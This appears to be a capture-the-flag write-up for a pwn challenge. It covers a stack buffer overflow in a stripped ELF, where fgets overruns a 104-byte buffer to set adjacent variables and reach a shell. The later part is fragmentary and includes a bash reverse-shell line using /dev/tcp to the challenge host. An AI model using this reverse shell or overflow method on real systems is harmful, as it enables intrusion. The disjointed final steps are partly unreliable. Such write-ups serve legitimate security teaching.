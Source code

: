 # Chamber of Secrets

## Pwn: 75 points

## Challenge

Enter the secret and get the flag!

`nc challenges.laptophackingcoffee.org 2341`

Credit: Tux#1576

[secret][1]

## Solution

Download the secret file. Check the file type:
```
$ file secret
secret: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=de09bbeb8ec1d02060e4f82bcb4dc54ebcec4f53, stripped
```

It's an ELF executable. Add run permissions. Run it:
```
$ chmod +x secret
$ ./secret
Enter the secret: my_secret
You did not pass.
```

Try `strings` and `hexdump`. Nothing interesting:
```
$ strings secret | less
$ hexdump -C secret | less
```

Open the elf file in Ghidra. The function names are all generic. Click through the functions and find one with something interesting like a recognizable string. Below is the discovered main function. Variables have been renamed for readability.
```c
int main(void)
{
  int chamberResult;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  chamberResult = chamberOfSecrets();
  if (chamberResult == 0) {
    printf("You did not pass.");
  }
  else {
    printf("You have passed.");
    system("/bin/sh");
  }
  return 0;
}
```

The `main()` function calls the `chamberOfSecrets()` function and uses the result to allow or disallow access to a shell: `system("/bin/sh")`.

Locate the `chamberOfSecrets()` function. All of the variables are declared at the start of the function. In memory, all of these variables will be right next to each other when they get added onto the stack. 
```c
int chamberOfSecrets(void)
{
  int returnValue;
  char userInput[104];
  int x159;
  int x2a6;
  int x4c;
  int x1ed;
  ...
```

After the declarations, the variables are initialized from `1` to `0x1a` (26 decimal):
```c
  ...
  xea = 1;
  x1282 = 2;
  x7b = 3;
  ...
  x2a6 = 0x19;
  x159 = 0x1a;
  ...
```

After the initializations comes the vulnerability. The `fgets` function pulls in up to `0x100` (256) characters. This is a lot more than the 104 byte buffer for the input: `char userInput[104]`. Therefore, the `fgets` allows the stack to be overwritten.

```c
  printf("Enter the secret: ");
  fgets(userInput, 0x100, stdin);
```

The function then checks for specific values for each of the 26 variables initialized earlier. If all variables match then the function returns `1` and grants access to the shell. Thus the goal is to overflow the input and set the adjacent variables to the expected values.

```c
  if (xea == 0xea && x1282 == 0x1282 && x7b == 0x7b && x21e == 0x21e &&
      x147a2 == 0x147a2 && x7c3 == 0x7c3 && x62 == 0x62 && x0 == 0 && x20 == 0x20 &&
      x463 == 0x463 && x20p2 == 0x20 && x62p2 == 0x62 && x345 == 0x345 && x1d == 0x1d &&
      xe7 == 0xe7 && x3cd == 0x3cd && x1 == 1 && x4fc == 0x4fc && d3000 == 3000 &&
      x17 == 0x17 && x3cc == 0x3cc && x29a == 0x29a && x1ed == 0x1ed && x4c == 0x4c &&
      x2a6 == 0x2a6 && x159 == 0x159)
  {
    returnValue = 1;
  }
  else
  {
    returnValue = 0;
  }
  return returnValue;
}
```

Write a python script to take advantage of this vulnerability. Here are the steps:

1. Overflow the `userInput` var
2. Overwrite the vars following `userInput` with the correct values
3. Take control of the shell

**Step 1: Overflow `userInput`**

Run the program. Enter a bunch of "A"s:
```
$ ./secret
Enter the secret: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

**Segmentation fault**: In computing, a segmentation fault (often shortened to segfault) or access violation is a fault, or failure condition, raised by hardware with memory protection, notifying an operating system the software has attempted to access a restricted area of memory (a memory access violation). -- [Wikipedia](https://en.wikipedia.org/wiki/Segmentation_fault)

The number of "A"s entered caused a segmentation fault, meaning that the program tried to write over a restricted area of memory. 

Compile and examine the [decompiled](decompiled.c) code in gdb:
```
$ gcc decompiled.c -o decompiled
$ gdb decompiled
(gdb) layout asm
(gdb) start
```

Set a breakpoint at the `chamberOfSecrets` function call then step into the function:
```
(gdb) break *main+68
(gdb) continue
Continuing.

Breakpoint 3, 0x0000555555554b70 in main ()
(gdb) si
0x000055555555484a in chamberOfSecrets ()
```


```
(gdb) break *chamberOfSecrets+315
```

```
$ gcc -fno-stack-protector chamber.c -o chamber
```
https://stackoverflow.com/questions/1345670/stack-smashing-detected
```
(gdb) r < payload
Starting program: /home/zionperez/Desktop/playgrounds/lhc/Pwn/ChamberOfSecrets/chamber < payload
*** stack smashing detected ***: <unknown> terminated
```

```
https://stackoverflow.com/questions/1345670/stack-smashing-detected
$ gcc -fno-stack-protector chamber.c -o chamber

$ nc challenges.laptophackingcoffee.org 2341
```


```
bash -i >& /dev/tcp/challenges.laptophackingcoffee.org/2341 0>&1

(python3 script.py ; cat)
```

```
$ cat payload | nc challenges.laptophackingcoffee.org 2341
Enter the secret: You have passed.
```


```
$ (cat payload; cat) | nc challenges.laptophackingcoffee.org 2341
https://www.youtube.com/watch?v=HSlhY4Uy8SA

LHC{y0u_expl0it3d_bu553r_0v3rfl0w!!!}
```


[1]:secret